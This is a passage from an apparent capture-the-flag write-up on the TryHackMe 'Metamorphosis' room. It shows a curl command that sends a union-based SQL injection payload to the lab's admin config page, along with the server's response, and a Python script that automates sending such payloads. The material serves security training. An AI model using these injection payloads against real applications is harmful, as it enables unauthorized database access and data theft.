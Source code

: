 Hence, it's vulnerable to SQL injection!

But which type of SQL injection? Union-based? Blind-based?

**Let's test for Union-based:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# curl http://metamorphosis.thm/admin/config.php --data-urlencode 'username=" UNION ALL SELECT "string1","string2","string3"-- -'
Username Password<br>string2 string3<br />
```

It worked!

Now we found that **it's vulnerable to Union-based SQL injection, it has 3 columns, and column 2, 3 accepts string data type.**

**To automate things, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests

class exploit():
    def __init__(self, url):
        self.url = url
        
    def sendRequest(self, payload):
        queryData = {
            'username': payload
        }

        requestResult = requests.post(self.url, data=queryData)
        listRequestText = requestResult.text.split('<br>')
        payloadResult = listRequestText[2:]

        print(f'[*] Payload: {payload}')
        print('[*] Payload result:')

        # Check only has 1 result
        if len(listRequestText) == 2:
            print(listRequestText[1].split('<br />')[0].strip())
        # If it has multiple results, print them all
        else:
            for item in payloadResult:
                print(item.split('<br />')[0].strip())


def main():
    url = 'http://metamorphosis.thm/admin/config.php'
    Exploit = exploit(url)

    payload = '''" UNION ALL SELECT NULL,NULL,"string3"-- -'''
    Exploit.sendRequest(payload)

if __name__ == '__main__':
    main()
```
